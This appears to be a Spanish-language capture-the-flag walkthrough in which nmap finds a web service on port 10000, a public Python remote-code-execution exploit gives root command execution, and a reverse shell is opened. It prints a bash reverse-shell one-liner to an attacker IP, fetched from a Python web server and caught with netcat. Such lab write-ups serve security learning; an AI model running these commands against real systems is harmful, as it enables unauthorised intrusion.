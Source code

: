 Vamos a hacer un reconocimiento con nmap y nos encuentra el puerto 22 y el puerto 10000:
![[Pasted image 20230403105622.png]]
![[Pasted image 20230403105650.png]]
Vemos que tenemos un servicio web corriendo por el puerto 10.000, que utiliza SSL por lo que tenemos que poner la URL como https:
![[Pasted image 20230403105911.png]]
Si buscamos por internet, podemos ver que existe un exploit en python que nos permite ejecutar comandos si lo lanzamos contra esta web:
![[Pasted image 20230404123527.png]]
![[Pasted image 20230404123542.png]]
Por tanto vamos a probar en descargarlo y vemos las instrucciones:
![[Pasted image 20230404123612.png]]
Lo probamos utilizando los parámetros oportunos y vemos que tenemos ejecución remota de comandos, y además siendo el usuario root:
![[Pasted image 20230404123650.png]]
Es importante recalcar que para esta herramienta los comandos deben ir entre comillas, para que se interpreten correctamente los espacios:
![[Pasted image 20230404124626.png]]
Por tanto vamos a compartir el código para obtener la reverse shell con python y lo pipeamos con bash desde la máquina víctima mientras estamos escuchando con netcat:
```python
bash -i >& /dev/tcp/10.10.16.27/443 0>&1
```
Subimos esto a un servidor web con python:
![[Pasted image 20230404124951.png]]
Lo ejecutamos en la máquina víctima pipeándolo con bash:
![[Pasted image 20230404125013.png]]
Y recibiremos la shell reversa con netcat:
![[Pasted image 20230404125034.png]]
